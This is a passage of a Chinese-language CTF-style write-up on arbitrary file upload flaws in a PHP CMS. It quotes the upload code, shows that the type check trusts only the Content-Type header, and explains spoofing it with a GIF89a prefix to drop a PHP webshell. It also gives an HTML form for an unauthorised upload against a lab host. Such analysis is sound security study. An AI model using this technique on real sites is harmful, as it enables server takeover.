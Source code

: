 定位到漏洞位置： `controller\CallAction.class.php` 

```php
public function upLoad() {
        if (isset($_POST['send'])) {
            $_logoupload = new LogoUpload('pic',$_POST['MAX_FILE_SIZE']);
            $_path = $_logoupload->getPath();
            $_img = new Image($_path);
            $_img->xhImg(960,0);
            $_img->out();
            //echo $_path;
            $_logoupload->alertOpenerClose('图片上传成功！','..'.$_path);
        } else {
            exit('警告：文件过大或者其他未知错误导致浏览器崩溃！');
        }
    }
```

然后跟进到类LogoUpload ,位于public\class\LogoUpload.class.php，上传首要关注上传是是否允许上传非图片格式的文件

```
private function checkType() {
        if (!in_array($this->type,$this->typeArr)) {
            Tool::alertBack('警告：LOGO图片必须是PNG格式！');
        }
    }

private $typeArr = array('image/png','image/x-png');//类型合集
```

根据Content-Type的值来判断是否是图片格式，只要Content-Type是这两种类型就可以，那直接伪造Content-Type就可以了, 然后带上 GIF89a 开头, 上传后会有如下提示

```
<script type='text/javascript'>alert('警告：此图片类型本系统不支持！');history.back();</script>
```

其实已经上传了

```
admin/../view/index/images/logo.php
```

访问即可getshell

## 任意文件上传二

越权上传

```html
<!DOCTYPE html>
<html>
	<head>
		<title>upload</title>
	</head>
<body>
	<form action="http://192-168-1-21.pvp336.bugku.cn/admin/?a=call&m=xhUp&type=xh" method="POST" enctype="multipart/form-data">
		<!--<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="1" />-->
		<label for="file">file name: </label>
		<input type="file" name="file"/><br>
		<input type="submit" name="submit" value="Submit"/>
	</form>
</body>
</html>
```
